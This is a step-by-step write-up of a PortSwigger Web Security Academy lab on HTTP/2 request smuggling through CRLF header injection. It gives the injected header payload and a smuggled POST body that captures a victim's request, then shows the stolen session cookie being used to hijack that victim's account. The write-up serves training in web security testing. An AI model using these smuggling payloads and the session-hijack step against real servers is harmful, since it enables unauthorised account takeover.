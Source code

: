 # HTTP/2 request smuggling via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

## If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

### The term `CRLF` refers to  `Carriage Return (ASCII 13, \r ) Line Feed (ASCII 10, \n )`

---

step 1

![screenshot](./images/images_lab13/lab13_search_result_store.png)

step 2
![screenshot](./images/images_lab13/lab13_observe_serach_result_from_history.png)

remove unnecessary header

![screenshot](./images/images_lab13/lab13_remove_some_header.png)

step 3

![screenshot](./images/images_lab13/lab13_send_search_result_test3.png)

step 4
add payload
name:
`foo`
value:
`bar\r\n`
`Transfer-Encoding: chunked`

![screenshot](./images/images_lab13/lab13_add_payload.png)

step 5
add

```
0

search=test3

```

![screenshot](./images/images_lab13/lab13_test_first_payload_not_found.png)

step 6

```
0

POST / HTTP/1.1
Host: 0a1000d2039488e3804bb75b00d800d4.web-security-academy.net
Cookie: session=MymYcTyskuyePyiQBQ83dlZEi5CNcxN8;
Content-Length: 13

search=test3
```

![screenshot](./images/images_lab13/lab13_test_test_another_payload.png)

step 7
unmarked content-Length

![screenshot](./images/images_lab13/lab13_unmark_content_length_test3.png)

step 8
increase content-Length

![screenshot](./images/images_lab13/lab13_increase_content_length.png)

refresh home page you will get Post search result

![screenshot](./images/images_lab13/lab13_refresh_homepage_containg_search_result.png)

step 9

wait for 10 second
increase content-Length
and search must be unique in each case

![screenshot](./images/images_lab13/lab13_increase_content_length_to_850.png)

```
accept-language: en-US,en;q=0.9
cookie: victim-fingerprint=YmIWC1ZZCR96uu0kQRzpkzYfjZqqIOiZ; secret=D9HZfnx9Uirg30BtJgIyBUSnPULD2WWT; session=SG5N4hqr7GwwPgUFDm1qICzHKT8v6efM;
```

---

step 10
intercept login page with wrong userid and password

![screenshot](./images/images_lab13/lab13_intercept_login_page.png)

step 7

replace session id with victim session id

![screenshot](./images/images_lab13/lab13_change_session_id.png)

![screenshot](./images/images_lab13/lab13_lab_solved.png)

